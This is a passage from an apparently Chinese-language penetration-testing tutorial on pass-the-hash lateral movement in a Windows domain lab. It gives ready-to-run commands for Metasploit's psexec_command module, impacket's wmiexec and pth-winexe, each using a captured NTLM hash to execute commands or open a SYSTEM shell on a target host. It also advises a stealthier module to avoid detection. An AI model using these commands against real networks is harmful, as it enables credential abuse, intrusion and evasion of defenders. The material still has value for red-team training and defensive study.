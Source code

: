 dir \192.168.52.129\c$  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085746.png)

  

MSF中也早已集成了PTH的方法：

这里的LM哈希是NTLM哈希认证的前身，只不过因为安全问题被NTLM取代了，有些工具需要填写我们可以原样填写，或者用00000000代替即可。  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085748.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210810085749.png)

  

成功便弹回shell上面的模块特征过于明显，可以利用msf稍微隐秘一点的模块  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085750.png)

  

  

 **利用msf稍微隐秘的PTH** ：

执行特定的命令然后就退出，另外还需要一个参数，就是在远程机器上执行的命令  

  *   *   *   *   *   *   * 

    
    
    use admin/smb/psexec_commandset rhosts 192.168.52.129set subdomain tubai.comset smbuser administratorset smbpass 00000000000000000000000000000000:2b07f7b579bb97532a9eb37753765d8fset command hostnamerun

  

 **impacket套件中的wmiexec可以PTH：**

wmiexec.exe -hashes LM哈希：NTLM哈希 域名/用户名@目标IP  

  * 

    
    
    wmiexec.exe -hashes e52cac67419a9a22a67a448822b50c99:2b07f7b579bb97532a9eb37753765d8f tubai/administrator@192.168.52.129

  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085751.png)

  

 **kali中也有自带工具可以PTH：**

pth-winexe  

![](https://gitee.com/fuli009/images/raw/master/public/20210810085752.png)

  * 

    
    
    pth-winexe -U tubai/administrator%e52cac67419a9a22a67a448822b50c99:2b07f7b579bb97532a9eb37753765d8f --system --ostype=1 //192.168.52.129 cmd

